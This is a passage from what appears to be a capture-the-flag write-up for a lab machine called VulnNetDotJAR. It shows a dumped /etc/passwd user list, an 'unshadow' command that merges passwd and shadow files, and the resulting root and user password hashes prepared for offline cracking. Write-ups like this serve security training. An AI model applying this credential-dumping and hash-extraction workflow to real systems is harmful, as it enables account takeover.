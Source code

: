 ```bash
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
uuidd:x:105:111::/run/uuidd:/usr/sbin/nologin
lightdm:x:106:113:Light Display Manager:/var/lib/lightdm:/bin/false
whoopsie:x:107:117::/nonexistent:/bin/false
kernoops:x:108:65534:Kernel Oops Tracking Daemon,,,:/:/usr/sbin/nologin
pulse:x:109:119:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin
avahi:x:110:121:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
hplip:x:111:7:HPLIP system user,,,:/var/run/hplip:/bin/false
jdk-admin:x:1000:1000:jdk-admin,,,:/home/jdk-admin:/bin/bash
web:x:1001:1001:,,,:/home/web:/bin/bash
systemd-timesync:x:112:123:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
tss:x:113:124:TPM software stack,,,:/var/lib/tpm:/bin/false
tcpdump:x:114:127::/nonexistent:/usr/sbin/nologin
geoclue:x:115:128::/var/lib/geoclue:/usr/sbin/nologin
saned:x:116:129::/var/lib/saned:/usr/sbin/nologin
fwupd-refresh:x:117:130:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
sddm:x:118:131:Simple Desktop Display Manager:/var/lib/sddm:/bin/false
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
ssm-user:x:1002:1002::/home/ssm-user:/bin/sh
sshd:x:119:65534::/run/sshd:/usr/sbin/nologin
ubuntu:x:1003:1004:Ubuntu:/home/ubuntu:/bin/bash
web@ip-10-201-69-245:/dev/shm$ 
```

<br>

```bash
root@ip-10-201-1-67:~/VulnNetDotJAR# unshadow passwd.txt shadow.txt
root:$6$FphZT5C5$cH1.ZcqBlBpjzn2k.w8uJ8sDgZw6Bj1NIhSL63pDLdZ9i3k41ofdrs2kfOBW7cxdlMexHZKxtUwfmzX/UgQZg.:0:0:root:/root:/bin/bash
...
jdk-admin:$6$PQQxGZw5$fSSXp2EcFX0RNNOcu6uakkFjKDDWGw1H35uvQzaH44.I/5cwM0KsRpwIp8OcsOeQcmXJeJAk7SnwY6wV8A0z/1:1000:1000:jdk-admin,,,:/home/jdk-admin:/bin/bash
web:$6$hmf.N2Bt$FoZq69tjRMp0CIjaVgjpCiw496PbRAxLt32KOdLOxMV3N3uMSV0cSr1W2gyU4wqG/dyE6jdwLuv8APdqT8f94/:1001:1001:,,,:/home/web:/bin/bash
...
ssm-user:x:1002:1002::/home/ssm-user:/bin/sh
...
ubuntu:x:1003:1004:Ubuntu:/home/ubuntu:/bin/bash
```

<br>

<img width="1312" height="729" alt="image" src="https://github.com/user-attachments/assets/debf80c1-e713-4743-bc0b-9ff98a68b809" />

<br>

```bash
root:$6$FphZT5C5$cH1.ZcqBlBpjzn2k.w8uJ8sDgZw6Bj1NIhSL63pDLdZ9i3k41ofdrs2kfOBW7cxdlMexHZKxtUwfmzX/UgQZg.:0:0:root:/root:/bin/bash
jdk-admin:$6$PQQxGZw5$fSSXp2EcFX0RNNOcu6uakkFjKDDWGw1H35uvQzaH44.I/5cwM0KsRpwIp8OcsOeQcmXJeJAk7SnwY6wV8A0z/1:1000:1000:jdk-admin,,,:/home/jdk-admin:/bin/bash
web:$6$hmf.N2Bt$FoZq69tjRMp0CIjaVgjpCiw496PbRAxLt32KOdLOxMV3N3uMSV0cSr1W2gyU4wqG/dyE6jdwLuv8APdqT8f94/:1001:1001:,,,:/home/web:/bin/bash
```
